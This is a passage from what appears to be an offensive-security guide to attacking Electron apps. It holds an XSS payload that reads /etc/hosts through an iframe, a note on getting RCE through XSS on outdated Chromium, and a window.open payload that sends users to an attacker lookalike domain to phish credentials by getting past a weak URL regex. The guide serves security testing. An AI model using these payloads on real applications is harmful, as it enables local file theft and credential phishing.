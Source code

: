 ```html
<br /><br /><br /><br />
<h1>
  pwn<br />
  <iframe onload="j()" src="/etc/hosts">xssxsxxsxs</iframe>
  <script type="text/javascript">
    function j() {
      alert(
        "pwned contents of /etc/hosts :\n\n " +
          frames[0].document.body.innerText
      )
    }
  </script>
</h1>
```

## **RCE: XSS + Old Chromium**

If the **chromium** used by the application is **old** and there are **known** **vulnerabilities** on it, it might be possible to to **exploit it and obtain RCE through a XSS**.\
You can see an example in this **writeup**: [https://blog.electrovolt.io/posts/discord-rce/](https://blog.electrovolt.io/posts/discord-rce/)

## **XSS Phishing via Internal URL regex bypass**

Supposing you found a XSS but you **cannot trigger RCE or steal internal files** you could try to use it to **steal credentials via phishing**.

First of all you need to know what happen when you try to open a new URL, checking the JS code in the front-end:

```javascript
webContents.on("new-window", function (event, url, disposition, options) {} // opens the custom openInternally function (it is declared below)
webContents.on("will-navigate", function (event, url) {}                    // opens the custom openInternally function (it is declared below)
```

The call to **`openInternally`** will decide if the **link** will be **opened** in the **desktop window** as it's a link belonging to the platform, **or** if will be opened in the **browser as a 3rd party resource**.

In the case the **regex** used by the function is **vulnerable to bypasses** (for example by **not escaping the dots of subdomains**) an attacker could abuse the XSS to **open a new window which** will be located in the attackers infrastructure **asking for credentials** to the user:

```html
<script>
  window.open("<http://subdomainagoogleq.com/index.html>")
</script>
```

## Remote module
